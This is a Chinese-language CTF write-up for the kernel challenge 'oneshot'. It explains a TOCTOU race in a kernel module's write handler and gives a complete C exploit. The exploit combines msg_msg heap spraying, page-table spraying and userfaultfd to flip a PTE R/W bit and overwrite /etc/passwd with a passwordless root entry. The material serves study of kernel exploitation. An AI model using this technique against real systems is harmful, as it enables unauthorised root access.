


## Pwn

>以出題者的身份參加這場比賽，不過有一題 kernel 題是 @hexrabbit 出的，在比賽過程中有做了一下，在此做個紀錄

### oneshot

一開始看這題時，直覺聯想到的是 [MidnightSunCTF_2021](MidnightSunCTF_2021.md) 的 brohammer，此題在使用 initramfs 的情況下，透過 flip `/root/flag` 所屬的 PDE 的 U/S bit，讓一般使用者能直接存取檔案內容，不過這個方法有兩個大前提：

- initramfs
- nokaslr

所以雖然想法有趣，但是並不怎麼 real world，至少 nokalsr 就已經很不常見了。而這題看起來相似，但實際上不僅僅開了 kalsr，執行環境也比較真實一些。


`run.sh`：

```bash
#!/bin/bash

# /init will mount $SHARED_DIR to /mnt
# fill in some path you want to share with vm (e.g. /tmp)
SHARED_DIR=./shared

qemu-system-x86_64 \
  -kernel bzImage \
  -initrd rootfs.cpio.gz \
  -append "console=ttyS0 oops=panic panic=-1 kaslr kpti smep smap quiet" \
  -monitor /dev/null \
  -nographic \
  -cpu qemu64,+smep,+smap \
  -m 256M \
  -s \
  -virtfs local,path=$SHARED_DIR,mount_tag=shared,security_model=passthrough,readonly
```

- kernel version 為 4.19.225，當時最新為 4.19.229，說不算最新但也是滿近期的版本


`init`：

```bash
#!/bin/sh
chown -R 0:0 /
mount -t tmpfs tmpfs /tmp
mount -t proc none /proc
mount -t sysfs none /sys
mount -t devtmpfs none /dev
# 讓你可以透過 shared folder 傳 exploit
mount -t 9p -o trans=virtio shared /mnt -oversion=9p2000.L

echo 1 > /proc/sys/kernel/kptr_restrict
echo 1 > /proc/sys/kernel/dmesg_restrict

insmod oneshot.ko
chmod a+rw /dev/oneshot
chmod u+s /bin/su
chmod 400 /flag

echo -e "\nBoot took $(cut -d ' ' -f1 /proc/uptime) seconds\n"
su -s /bin/bash root

poweroff -d 0 -f
```

- 如果 initramfs 是用 busybox 編的，那預設情況下是不會有 suid 的 binary，而在 `init` 中特別設上 `/bin/su` 的 SUID


`oneshot.ko`：

```c
__int64 __fastcall oneshot_write(__int64 fd, char *buf, __int64 size)
{
  unsigned __int64 _buf_size; // rax
  __int64 _kbuf_off; // rax
  char local_c; // [rsp+7h] [rbp-19h] BYREF
  unsigned __int64 v8; // [rsp+8h] [rbp-18h]

  _buf_size = kbuf_size;
  if ( !kbuf_size ) // 如果過去沒有初始化過 kbuf_size
  {
    kbuf = _kmalloc(size, 0x6000C0LL);
    if ( !kbuf )
      return -12LL;
    // 初始化 global variable / local variable
    kbuf_size = size;
    _buf_size = size;
  }
  if ( kbuf_off >= _buf_size ) // 如果超過大小
    return -28LL;
  copy_from_user(&local_c, buf, 1LL); // 從 userspace copy 一個 bytes
  // VULN - toc-tou
  _kbuf_off = kbuf_off++;
  *(_BYTE *)(kbuf + _kbuf_off) = local_c;
  return 0LL;
}
```

- 此 kernel module 第一次會接收一個 size 參數，傳入 `kmalloc()` 分配對應大小的記憶體
- 而後每次 `write()` 時會從 user space 複製一個 byte 到 chunk 當中，直到最後 index == size
- 明顯存在一個 toc-tou 的漏洞：
  - 首先 module 會先檢查當前寫入的 size 是否已經到上限 (**toc**)，如果到的話就不讓你寫
  - 如果沒有的話，從 userspace copy 一個 bytes
  - assign 當前的 index 給 local variable，之後 index++ (**tou**)
  - 寫到申請的記憶體當中


假設可以透過 toc-tou 蓋到後面的資料，在沒有 leak 的情況下做 exploit 的方法有以下方向：

- 由於 kaslr 沒有影響到後面三個 bytes (相較 userspace 的 aslr 固定的部分只有 1.5 bytes)，因此可以考慮 partial overwrite 到接在後面的結構
- 參考 MidnightSunCTF_2021-brohammer，目標為蓋掉某個資源的 attribute：
  - user uid - 將 user 的 uid 蓋為 0
  - page table entry U/S or R/W - 將 `/root/flag` 所屬的 PTE 的 U/S 設為 1，或是將 `/etc/passwd` 等 normal user 只能讀的檔案改成可讀可寫 (R/W 設為 1)
  - inode suid - 把某個可以用於提權的 root-own binary 的 SUID 設為 1


不過實際上在控制寫入的資料時，我嘗試過的方法並沒有辦法很好的控制 `write()` 順序，原因為：

- 直接使用 `pthread_create()` 建立的 thread 不會繼承 userfaultfd handler
- `fork()` 完做寫入後，必須要在 userfault handler 內讓 `write()` 符合 payload order (因為一次寫一個 byte)，需要透過 lock file 或是其他機制

做過多個嘗試後，我放棄原先要 partial overwrite 的想法，並經過 @hexrabbit 提示，參考了 [HITCON 2021 - The Great Escapes : A Case Study Of VM Escape & EoP Vulnerabilities](https://www.youtube.com/watch?v=XZtot1x8wQM)，最後將目標放在蓋寫  `/etc/passwd` 所屬的 PTE 的 R/W bit。

然而我對 buddy system 以及 slab 的相關記憶體管理機制沒有很熟，因此我使用最直觀的 heap spray，先申請一大堆 0x1000 大小的記憶體區塊，之後釋放讓 slab 的 freelist 充滿這些 chunk。

- 大小選擇 0x1000 是因為 Page Table 為 4KB (4096)
- spray 的方法為：
  - 瘋狂做 `msgget()` --> `msgsnd()`： 申請一堆 0x1000 大小的 chunk
  - 一口氣 `msgrcv()`： 釋放那些 0x1000 大小的 chunk


而後，我們要申請一大堆只有一個 entry 的 page table，並且映射到 `/etc/passwd`，長得像是下圖：



在申請的過程中，因為 Page Table 大小為 0x1000，因此有很大的機率使用 slab freelist 所 maintain 的 chunk，也就是剛剛我們 spray 完又 free 掉的那些 chunk。假設先前已透過 spray 的方式釋放 100 個 0x1000 大小的 chunk，在這階段可以申請 9X 個 Page Table，之後透過 oneshot 申請一塊 0x1000 大小的記憶體區塊，**有一定機率** oneshot 的記憶體區塊後面緊接著是先前申請的 9X 個 Page Table，加上唯一的 PTE 存在於 index 0，因此 overwrite 時就會蓋到對應的 PTE。

因為我們的目標是 PTE 的 R/W bit (bit 2)，所以我們只需要 overwrite 1 byte，把 R/W 蓋成 1 即可，原先末 1 byte value 可以直接拿 PTE 原本存的來用。如果 exploit 成功，我們就能寫到 PTE 對應到的 page，也就是 `/etc/passwd` 資料的所在位址。雖然還不確定是蓋到哪個 `mmap()` 出來的 virtual address 的 PTE，但 syscall read 在傳入的位址為非法的情況下不會 crash，可以用來檢查成功的 `mmap()` memory，而後將 `fake_etc_passwd` 透過 `memcpy()` 寫到 memory 後，用 `msync()` 確保更新成功，最後結束程式。


能做到任意寫檔的 exploit 如下，成功機率大約為 10~15%：

```c
#define _GNU_SOURCE
#include <inttypes.h>
#include <sys/types.h>
#include <stdio.h>
#include <linux/userfaultfd.h>
#include <pthread.h>
#include <errno.h>
#include <unistd.h>
#include <stdlib.h>
#include <fcntl.h>
#include <signal.h>
#include <poll.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/syscall.h>
#include <sys/ioctl.h>
#include <sys/stat.h>
#include <sys/msg.h>
#include <poll.h>
#define BASE_ADDR 0x100000000

int target_fd;
char *addr;
static int page_size;
unsigned char payload[] = { 0b100111 };
int *pte_addr[1 << 8];

void perr(const char *msg)
{
    puts(msg);
    exit(1);
}

void *uf_handler(void *arg)
{
    static char *page = NULL;
    static struct uffd_msg msg;
    struct uffdio_copy uffdio_copy;
    long uffd;

    uffd = (long) arg;
    if (page == NULL)
        page = mmap(NULL, page_size, PROT_READ | PROT_WRITE,
                   MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    if (page == MAP_FAILED)
           perr("[-] uf_handler mmap failed");

    struct pollfd pollfd;
    size_t nready;
    int nread;

    pollfd.fd = uffd;
    pollfd.events = POLLIN;
    nready = poll(&pollfd, 1, -1);
    if (nready == -1)
        perr("[-] poll failed");

    nread = read(uffd, &msg, sizeof(msg));
    if (msg.event != UFFD_EVENT_PAGEFAULT)
        perr("[-] not a page fault event");
    printf("[*] trigger uf address: 0x%llx\n", msg.arg.pagefault.address);

    // copy our payload
    unsigned char buf[0x1000] = {0};
    buf[0] = payload[0];

    uffdio_copy.src = (unsigned long) buf;
    uffdio_copy.dst = (unsigned long) msg.arg.pagefault.address &
                                                ~(page_size - 1);
    uffdio_copy.len = page_size;
    uffdio_copy.mode = 0;
    uffdio_copy.copy = 0;

    sleep(1);
    if (ioctl(uffd, UFFDIO_COPY, &uffdio_copy) == -1)
        perr("[-] uffd copy failed");

    printf("[*] uffdio_copy.copy returned %lld\n", uffdio_copy.copy);
}

void setup_uf(unsigned long base_addr, unsigned long size, unsigned offset)
{
    int tid;
    long uffd;
    pthread_t thr;
    struct uffdio_api uffdio_api;
    struct uffdio_register uffdio_register;

    // create new uffd
    page_size = sysconf(_SC_PAGE_SIZE);
    uffd = syscall(__NR_userfaultfd, O_CLOEXEC | O_NONBLOCK);
    if (uffd == -1)
        perr("[-] create uffd failed");

    // enable uffd object
    uffdio_api.api = UFFD_API;
    uffdio_api.features = 0;
    if (ioctl(uffd, UFFDIO_API, &uffdio_api) == -1)
        perr("[-] enable uffd failed");

    // allocate memory for uffd
    addr = (char *) mmap((void *) base_addr, size, PROT_READ | PROT_WRITE,
                               MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    if (addr == MAP_FAILED)
        perr("[-] mmap failed");
    printf("[+] mmap address = %p\n", addr);

    // register uffd
    uffdio_register.range.start = (unsigned long) addr + offset;
    uffdio_register.range.len = size;
    uffdio_register.mode = UFFDIO_REGISTER_MODE_MISSING;
    if (ioctl(uffd, UFFDIO_REGISTER, &uffdio_register) == -1)
        perr("[-] uffd register failed");

    // create monitor thread
    tid = pthread_create(&thr, NULL, uf_handler, (void *) uffd);
    if (tid != 0)
        perr("[-] create thread failed");
}

void setup(int size)
{
    char buf[8] = {0};
    target_fd = open("/dev/oneshot", O_RDWR);
    write(target_fd, buf, size);
    for (int i = 0; i < size - 2; i++)
       write(target_fd, buf, 1);
}

int fd;
void _exp()
{
    fd = open("/etc/passwd", O_RDONLY);
    if (fd >= 0)
        puts("[*] open /etc/passwd successfully");

    
#define BUFF_SIZE (0x1000-48)
   struct {
	    long mtype;
	    char mtext[BUFF_SIZE];
    } msg;

    memset(msg.mtext, 0x42, BUFF_SIZE);
    msg.mtype = 1;
    
    int msqids[1 << 8] = {0};
    int result;
    long msgtyp = 0;
    for (int i = 0; i < (1 << 8); i++) {
        msqids[i] = msgget(IPC_PRIVATE, 0644 | IPC_CREAT);
        result = msgsnd(msqids[i], (void *) &msg, sizeof(msg.mtext), IPC_NOWAIT);
        if (result < 0)
            puts("[*] msgsnd error");
    }
    for (int i = 0; i < (1 << 8); i++) { 
        result = msgrcv(msqids[i], (void *) &msg, sizeof(msg.mtext),
                    msgtyp, MSG_NOERROR | IPC_NOWAIT);
        if (result < 0)
            puts("[*] msgrcv error");
    }

    // spray PTE
    /*
    0x200000
    0x400000
    0x600000
    0x800000
    0xa00000
    ...
    */
    for (int i = 0; i < (1 << 8)-3; i++)
        pte_addr[i] = mmap((void *) ((i+1) << (9+12)), 0x1000, PROT_READ, MAP_SHARED | MAP_FIXED, fd, 0);

    int x = 0;
    for (int i = 0; i < (1 << 8)-3; i++)
        x += pte_addr[i][0];
}

int main()
{    
    _exp();
    puts("[*] spray PTE successfully");
    setup(0x1000);
    puts("[*] setup successfully");

    if (fork() == 0) {
        setup_uf(BASE_ADDR, 0x1000, 0);
        puts("[*] child setup userfaultfd done");
        write(target_fd, BASE_ADDR, 1);
        exit(1);
    } else {
        setup_uf(BASE_ADDR, 0x1000, 0);
        puts("[*] parent setup userfaultfd done");
        write(target_fd, BASE_ADDR, 1);
    }

    sleep(2);
    unsigned char fake_etc_passwd[] = ""
        "root::0:0:root:/root:/bin/bash\n"
		"daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\n"
		"bin:x:2:2:bin:/bin:/usr/sbin/nologin\n"
		"sys:x:3:3:sys:/dev:/usr/sbin/nologin\n"
		"sync:x:4:65534:sync:/bin:/bin/sync\n"
		"games:x:5:60:games:/usr/games:/usr/sbin/nologin\n"
		"man:x:6:12:man:/var/cache/man:/usr/sbin/nologin\n"
		"lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\n"
		"mail:x:8:8:mail:/var/mail:/usr/sbin/nologin\n"
		"news:x:9:9:news:/var/spool/news:/usr/sbin/nologin\n"
		"uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\n"
		"proxy:x:13:13:proxy:/bin:/usr/sbin/nologin\n"
		"www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\n"
		"backup:x:34:34:backup:/var/backups:/usr/sbin/nologin\n"
		"list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\n"
		"irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin\n"
		"gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin\n"
		"nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\n"
		"_apt:x:100:65534::/nonexistent:/usr/sbin/nologin";
    int success = 0;
    for (int i = 0; i < (1 << 8)-3; i++) {
        if (read(fd, pte_addr[i], 1) > 0) {
            memcpy(((unsigned char *)pte_addr[i]), fake_etc_passwd, sizeof(fake_etc_passwd));
            msync(pte_addr[i], 0x1000, MS_SYNC);
            success = 1;
            break;
        }
    }

    if (success)
        puts("[+] exp successfully");
    else
        puts("[*] exp failed");

    return 0;
}
```


附上成功截圖：

